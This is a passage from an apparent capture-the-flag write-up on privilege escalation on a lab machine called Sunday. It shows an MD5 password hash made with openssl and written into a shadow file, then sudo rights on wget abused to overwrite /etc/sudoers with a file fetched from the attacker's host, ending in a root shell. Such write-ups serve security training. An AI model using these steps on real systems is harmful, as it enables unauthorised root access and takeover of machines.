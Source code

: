 If I had wanted to give root a different password, and not just copy from sunny or sammy, I could use openssl:

```

root@kali# openssl passwd -1 -salt 0xdf password
$1$0xdf$fKKvgEPPSu1HMdNI3w5i50

```

Then put that into shadow:

```

root@kali# head -1 shadow
root:$1$0xdf$fKKvgEPPSu1HMdNI3w5i50:17636::::::

```

And now I can `su` with the password “password”.

#### Overwrite sudoers

The `/etc/sudoers` file defines who can run sudo on which applications. We can estimate that, without comments, the unmodified file on Sunday looks something like:

```

root  ALL=(ALL) ALL
sammy ALL=(root) NOPASSWD: /usr/bin/wget
sunny ALL=(root) NOPASSWD: /root/troll

```

Let’s change that slightly in a copy on our local host, giving sammy the ability to run `su` without password:

```

root  ALL=(ALL) ALL
sammy ALL=(root) NOPASSWD: /usr/bin/su
sunny ALL=(root) NOPASSWD: /root/troll

```

Now, use wget to overwrite the file on Sunday, and then it is easy to get a root shell:

```

sammy@sunday:~$ sudo wget -O /etc/sudoers http://10.10.14.5/sudoers
--02:07:08--  http://10.10.14.5/sudoers
           => `/etc/sudoers'
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 99 [application/octet-stream]

100%[==========================================================================================================================================================================================================>] 99            --.--K/s

02:07:08 (15.45 MB/s) - `/etc/sudoers' saved [99/99]

sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/su
sammy@sunday:~$ sudo su
root@sunday:~# id
uid=0(root) gid=0(root)

```
